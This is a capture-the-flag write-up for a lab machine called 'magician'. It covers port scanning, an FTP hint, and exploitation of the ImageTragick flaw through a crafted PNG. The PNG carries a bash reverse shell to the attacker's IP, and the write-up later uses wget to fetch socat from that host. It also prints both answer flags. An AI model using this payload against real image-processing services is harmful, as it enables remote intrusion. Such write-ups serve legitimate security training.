

# magician

This magical website lets you convert image file formats.

Note: this machine needs about 7 minutes to start up, please be patient :)

Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
On Windows, the hosts file should be at C:\Windows\System32\drivers\etc\hosts.

Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

Have fun and use your magic skills!

# user.txt

## Initial foothold

Let's first add the hostname to our hosts file, as told above:

~~~
echo "10.10.100.95 magician" | sudo tee -a /etc/hosts
~~~

Nmap discovers 3 open ports:

~~~
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 30 Apr 2021 09:52:06 GMT
|     Connection: close
|     {"timestamp":"2021-04-30T09:52:07.398+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 30 Apr 2021 09:52:06 GMT
|     Connection: close
|     {"timestamp":"2021-04-30T09:52:06.969+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 30 Apr 2021 09:52:06 GMT
|     Connection: close
|     {"timestamp":"2021-04-30T09:52:07.099+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 30 Apr 2021 09:52:06 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
~~~

## FTP

Attempting to connect to the FTP service as anonymous will succeed and provide us with a hint. However, there is nothing else to expect.

~~~
kali@kali:/data/vpn$ ftp magician 
Connected to magician.
220 THE MAGIC DOOR
Name (magician:kali): anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
ftp> ls -la
550 Permission denied.
ftp: bind: Address already in use
ftp> cd /
550 Permission denied.
ftp> 
~~~

## Web (8080)

Browsing http://magician:8080 will show a page that converts a PNG file to a JPG file.

As the hint given by the FTP was referring to a vulnerability (https://imagetragick.com, CVE-2016–3714), we can guess that we have to exploit this vulnerability by uploading a malicious PNG file.

After several failed attempts, I eventually found a working exploit [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1). Below is the code to make the malicious PNG file:

~~~
kali@kali:/data/magician/files$ cat > image.png << EOF
> push graphic-context
> encoding "UTF-8"
> viewbox 0 0 1 1
> affine 1 0 0 1 0 0
> push graphic-context
> image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
> pop graphic-context
> pop graphic-context
> EOF
~~~

open a listener and upload the image using the web form. A reverse shell spawns in our listener window:

~~~
kali@kali:/data/magician/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.100.95] 60864
bash: cannot set terminal process group (957): Inappropriate ioctl for device
bash: no job control in this shell
magician@magician:/tmp/hsperfdata_magician$ id
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
~~~

## User flag

Let's get the user flag:

~~~
magician@magician:/tmp/hsperfdata_magician$ cd /home
cd /home
magician@magician:/home$ ll
ll
total 12
drwxr-xr-x  3 root     root     4096 Jan 30 10:43 ./
drwxr-xr-x 24 root     root     4096 Jan 30 10:31 ../
drwxr-xr-x  5 magician magician 4096 Feb 13 07:19 magician/
magician@magician:/home$ cd magician
cd magician
magician@magician:~$ ls -la
ls -la
total 17204
drwxr-xr-x 5 magician magician     4096 Feb 13 07:19 .
drwxr-xr-x 3 root     root         4096 Jan 30 10:43 ..
lrwxrwxrwx 1 magician magician        9 Feb  6 13:38 .bash_history -> /dev/null
-rw-r--r-- 1 magician magician      220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 magician magician     3771 Apr  4  2018 .bashrc
drwx------ 2 magician magician     4096 Jan 30 10:43 .cache
drwx------ 3 magician magician     4096 Jan 30 10:43 .gnupg
-rw-r--r-- 1 magician magician      807 Apr  4  2018 .profile
-rw-r--r-- 1 magician magician        0 Jan 30 10:43 .sudo_as_admin_successful
-rw------- 1 magician magician     7546 Jan 31 03:50 .viminfo
-rw-r--r-- 1 root     root     17565546 Jan 30 11:55 spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
-rw-r--r-- 1 magician magician      170 Feb 13 07:19 the_magic_continues
drwxr-xr-x 2 root     root         4096 Feb  5 05:14 uploads
-rw-r--r-- 1 magician magician       24 Jan 30 11:30 user.txt
magician@magician:~$ cat user.txt
cat user.txt
THM{simsalabim_hex_hex}
~~~

# root.txt

## Hint

Still connected as `magician`, there is a hint in the `/home/magician/` directory:

~~~
magician@magician:~$ cat the_magic_continues
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
~~~

Following the hint, I checked the network connections with `netstat`, which revealed a weird connection on port `6666`. This is however only available for `localhost`.

~~~
magician@magician:/tmp/hsperfdata_magician/uploads$ netstat -putan
netstat -putan
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0    300 10.10.100.95:60902      10.8.50.72:4444         ESTABLISHED 27129/bash          
tcp6       0      0 :::8080                 :::*                    LISTEN      957/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.100.95:8080       10.8.50.72:35182        ESTABLISHED 957/java            
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.100.95:68         0.0.0.0:*                           -                   
~~~

## The program on port 6666

Let's use `socat` to forward the local port and make the program available to the outside.

Transfer the `socat` binary from your Kali box to the server and use it to forward local port `6666` to port `7777`:

~~~
magician@magician:~$ wget http://10.8.50.72:8000/socat
magician@magician:~$ chmod +x socat
magician@magician:~$ ./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
~~~

Now, connecting in a browser to port `7777` (http://magician:7777/) shows a new page that allows to read files. The program is likely run by `root` as it allows to read the root flag:

Press Submit until you get a base64 encoded string (the program is rotating through a bunch of encodings, including hex, binary, md5, base64).

Once we have our root flag as base64 encoded string, let's decode it:

~~~
kali@kali:/data/src$ echo "VEhNe21hZ2ljX21heV9tYWtlX21hbnlfbWVuX21hZH0K" | base64 -d
THM{magic_may_make_many_men_mad}
~~~

Root flag: `THM{magic_may_make_many_men_mad}`
